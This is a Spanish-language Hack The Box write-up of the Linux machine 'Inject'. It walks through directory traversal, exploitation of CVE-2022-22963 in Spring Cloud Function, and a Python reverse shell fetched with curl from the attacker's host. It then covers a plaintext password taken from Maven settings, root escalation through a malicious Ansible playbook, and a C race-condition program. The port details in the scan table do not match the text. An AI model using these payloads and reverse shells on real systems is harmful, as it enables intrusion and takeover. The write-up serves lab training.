





Inject es una máquina Linux fácil creada por rajHere en Hack The Box que consiste en explotar un bug de Directory Traversal para localizar y leer archivos locales como frank. Usamos esta vulnerabilidad para enumerar las versiones de software involucradas en el servidor web, donde encontramos una instalación desactualizada de Spring Framework que es vulnerable a un bug crítico rastreado como CVE-2022-22963. Este fallo se utiliza entonces para obtener la ejecución de código como frank, y encontrar credenciales para phil en el directorio home de frank. El usuario phil tiene permiso para escribir playbooks de Ansible en un determinado directorio que es utilizado por root en trabajos CRON programados. Con un playbook especial, somos capaces de ejecutar código como root y obtener la bandera del sistema

# Initial Recon

Vamos a configurar nuestro entorno y ejecutar un escaneo de puertos TCP con esta envoltura nmap personalizada.

```bash
# mhil4ne@Kali (bash)
rhost="10.10.11.204" # Target IP address
lhost="10.10.14.4" # Your VPN IP address
echo rhost=$rhost >> .env
echo lhost=$lhost >> .env
. ./.env && ctfscan $rhost
```

The open ports reported in the scan include:

| Port | Service | Product       | Version |
|------|---------|---------------|---------|
| 22   | ssh     | OpenSSH       | 8.9p1   |
| 80   | HTTP    | Nagios NSCA   |         |

# Web
Comenzaremos explorando el servidor HTTP en el puerto 8080 ya que los servicios web suelen ser vulnerables. También vamos a enrutar nuestras peticiones a través de nuestro proxy local BurpSuite o simplemente utilizar el navegador incorporado de BurpSuite



La página de inicio presenta algunas características, incluida la posibilidad de subir archivos. Vamos a echar un vistazo a esa página, ya que la carga de archivos es un terreno resbaladizo en lo que respecta a la seguridad.



Intentaremos subir un archivo en nuestra sesión de navegador mientras capturamos la petición con BurpSuite.

```bash
POST /upload HTTP/1.1
Host: 10.10.11.204:8080
Content-Length: 220
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAPgIHu4nfmqDyyE2
User-Agent: BurpSuite
Accept: */*

------WebKitFormBoundaryAPgIHu4nfmqDyyE2
Content-Disposition: form-data; name="file"; filename="demo.txt"
Content-Type: text/plain

This is a standard UTF-8 text file...

------WebKitFormBoundaryAPgIHu4nfmqDyyE2--
```



La respuesta indica que el formulario acepta exclusivamente archivos de imagen, así que intentaremos subir una imagen.



La carga se ha realizado correctamente y podemos ver la imagen dinámicamente en el punto final /show_image.



## File Disclosure

Parece que el archivo de imagen se carga dinámicamente desde el sistema de archivos utilizando el parámetro img. Veamos si podemos leer algún archivo fuera de nuestro directorio de trabajo como /etc/passwd.

```bash
# mhil4ne@kali (bash)
curl "http://$rhost:8080/show_image?img=../../../../../../etc/passwd"

root:.x:0:0:root:/root:/bin/bash
daemon:.x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:.x:2:2:bin:/bin:/usr/sbin/nologin
...
```

Aparentemente podemos usar este endpoint para leer archivos locales usando un payload genérico de directory traversal. Trasteando un poco más, descubrimos que también podemos listar directorios.

```bash
# mhil4ne@kali (bash)
curl "http://$rhost:8080/show_image?img=../../../../../../"

bin
boot
dev
...
```

## Remote Code Execution

Encontremos el origen de la aplicación para poder buscar credenciales o una superficie de ataque adicional.

```bash
# mhil4ne@kali (bash)
inject_fetch() { curl -sm 1 "http://$rhost:8080/show_image?img="$@; }
inject_fetch ../ # read parent directory
inject_fetch ../java # keep looking ...
```

Finalmente encontramos lo que parece ser la raíz del proyecto para la aplicación Java actual en ../../../{:.filepath}. Dentro de ese directorio, encontramos la configuración del proyecto Maven en pom.xml{:.filepath} que contiene un par de huellas de software notables.

- org.springframework.boot 2.6.5
- spring-cloud-function-web 3.2.2

Si buscamos vulnerabilidades con cualquiera de las dos huellas, vemos referencias a un par de CVE diferentes. Confirmamos que Spring Cloud Function versión 3.2.2 es vulnerable a CVE-2022-22963 comprobando la descripción CVEDetails.

> En las versiones 3.1.6, 3.2.2 y versiones anteriores no compatibles de Spring Cloud Function, al utilizar la funcionalidad de enrutamiento es posible que un usuario proporcione un SpEL especialmente diseñado como expresión de enrutamiento que puede dar lugar a la ejecución remota de código y al acceso a recursos locales.

Ya hay un número de exploits de prueba de concepto por ahí, pero decidí crear uno de todos modos aquí. Vamos a utilizar este programa para generar una shell inversa que responde a un oyente PwnCat.

```bash
# mhil4ne@kali (bash)
pwncat-cs -c <(echo "listen -m linux -H $lhost 443")
```

```bash
# mhil4ne@kali (bash)
inject_fetch ../../../../../../usr/bin | grep '^python' # python3 is installed
tmp=$(mktemp -d)
cat << EOF > $tmp/index.html
import os,pty,socket
s=socket.socket()
s.connect(("$lhost",443))
[os.dup2(s.fileno(),f)for(f)in(0,1,2)]
pty.spawn("bash")
EOF
python3 -m http.server --bind $lhost --directory $tmp 80 &
python3 CVE-2022-22963.py "http://$rhost:8080" "curl $lhost -o/tmp/_d"
python3 CVE-2022-22963.py "http://$rhost:8080" "python3 /tmp/_d"
```

A continuación, debemos obtener una devolución de llamada a nuestro oyente en el puerto 443 como el usuario Frank.

# Privilege Escalation

## Frank

Empezaremos explorando el sistema de ficheros empezando por el directorio home de frank

```bash
# frank@inject (bash)
find ~ -type f

/home/frank/.bashrc
/home/frank/.m2/settings.xml
...
```

Hay un archivo de configuración de usuario Maven en ~/.m2/settings.xml{:.filepath} que contiene las credenciales para el usuario phil.

```bash
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

## Phil

Iniciaremos sesión como phil con su usando la contraseña DocPhillovestoInject123, tomaremos la bandera de usuario, luego ejecutaremos algunos comandos simples de enumeración.

```bash
# phil@inject (bash)
sudo -l # no luck :(
id # staff group?
```

Con el comando id, descubre que phil es miembro de un grupo personalizado llamado staff. Veamos si este grupo tiene permisos especiales en el sistema de archivos.

```bash
# phil@inject (bash)
find / -group staff -ls 2>/dev/null
```

La entrada más notable es el directorio /opt/automation/tasks{:.nolineno} que concede privilegios de escritura al grupo staff. Dentro de esa carpeta hay un archivo de configuración de sólo lectura (playbook) para un marco de automatización de TI conocido como Ansible. Dado que esto tiene que ver con la automatización, sospechamos que hay un trabajo CRON o algo similar que utiliza esta carpeta a ciertos intervalos. Usaremos PSpy para monitorizar procesos y encontrar tareas programadas.

```bash
# mhil4ne@kali (PwnCat phil@inject)
upload pspy /home/phil
```

```bash
# phil@inject (bash)
chmod +x pspy && ./pspy | tee -a pspy.log
```

Después de un par de minutos, encontramos una serie de procesos privilegiados que se ejecutan cada dos minutos y que interactúan con /opt/automation/tasks{:.filepath} de una manera potencialmente insegura.

- /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
- /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
- sleep 10
- /usr/bin/rm -rf /opt/automation/tasks/*
- /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/

El primer proceso en cuestión evalúa cualquier ruta que satisfaga /opt/automation/tasks/*.yml{:.filepath} como un playbook de Ansible. Deberíamos ser capaces de conseguir nuestro libro de jugadas evaluado desde /opt/automation/tasks{:.filepath} es escribible.

## Ansible

Resulta que, la ejecución de comandos en un libro de jugadas Ansible es posible y bien documentado, lo que significa que debe ser capaz de escalar a la raíz de esta manera. Vamos a añadir una tarea que concederá el bit SUID a /bin/sh{:.filepath}, asegurándose de que limpiar después de nosotros mismos para no arruinar la caja para los demás.

```bash
- hosts: localhost
  tasks:
  - name: pwn
    ansible.builtin.shell: "chmod +s /bin/sh"
```

```bash
# phil@inject (bash)
cat << EOF > /opt/automation/tasks/pwnbook.yml
- hosts: localhost
  tasks:
  - name: pwn
    ansible.builtin.shell: chmod +s /bin/sh
EOF
```

Después de un par de minutos verificamos que /bin/sh{:.filepath} o /bin/dash{:.filepath} tienen SUID, y luego generamos un shell de root.

```bash
# phil@inject (bash)
/bin/sh -pi
```

# Alternative Solution (Bonus)

Imaginemos que el comodín mágico utilizado para ejecutar nuestro propio libro de jugadas no existiera. Incluso sin esto, podemos resolver esta máquina abusando de una condición de carrera en un trabajo CRON. Mira, cada dos minutos root evalúa el playbook en /opt/automation/tasks/playbook_1.yml{:.filepath} junto con el siguiente comando:

```bash
sleep 10 &&
  rm -rf /opt/automation/tasks/* &&
  cp /root/playbook_1.yml /opt/automation/tasks/
```

```bash
 gantt
  dateFormat mm:ss
  axisFormat %M:%S
  tickInterval 2minute
  title Process creation flow
  section CRON Job
  Run playbook : crit, milestone, p1, 00:00, 0s
  Sleep : p2, 00:00, 10s
  Remove playbooks : milestone, p3, 00:10, 0s
  Copy original playbook to tasks folder : milestone, p4, 00:10, 0s
  CRON Wait : w, 00:00, 2m
```

Si observamos la temporización de las llamadas en nuestro registro de PSpy, nos damos cuenta de que el libro de jugadas original se elimina y se sustituye en menos de un segundo. Resulta que podemos utilizar el tiempo entre estas acciones para evitar por completo que el playbook sea reemplazado. Para ello, creamos un directorio en /opt/automation/tasks/playbook_1.yml{:.filepath} mientras que la ruta no se reclama. Cuando la tarea intenta rellenar esa ruta, se encuentra con un error, ya que un archivo no puede sobrescribir un directorio, independientemente de los permisos que tenga. Una vez que el comando cp falla, eliminaremos el directorio y lo reemplazaremos con nuestro playbook malicioso, que se evaluará después de un par de minutos.

Sólo necesitamos crear un programa compilado rápido que sea lo suficientemente eficiente para cronometrar esto correctamente. El siguiente programa debería funcionar bien:

```bash
// gcc -static ./privesc2.c -o privesc2
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>

#define PLAYBOOK_PATH "/opt/automation/tasks/playbook_1.yml"
#define PLAYBOOK "- hosts: localhost\n"\
                 "  tasks:\n"\
                 "  - name: pwn\n"\
                 "    ansible.builtin.shell: chmod +s /bin/sh\n"

void replace() {
  struct stat sb;

  while(1) {
    if (stat(PLAYBOOK_PATH, &sb) != 0) {
      if (mkdir(PLAYBOOK_PATH, 0700) == 0) {
        puts("Swapped with directory!");
        return;
      }
      puts("Fail!");
      sleep(110);
    }
    usleep(100);
  }
}

void plant() {
  FILE *file;
  if (file = fopen(PLAYBOOK_PATH, "w")) {
    fprintf(file, "%s", PLAYBOOK);
    fclose(file);
  }
}

int main(int argc, char* argv[]) {
  replace();
  sleep(10);
  system("rm -rf /opt/automation/tasks/playbook_1.yml");
  plant();
  puts("Done!");
  return 0;
}
```

Ejecutar el ejecutable compilado en el objetivo debería reemplazar el archivo con nuestro playbook malicioso después de un par de minutos. A continuación, esperamos otro par de minutos y ejecutamos /bin/sh -pi para generar un intérprete de comandos raíz.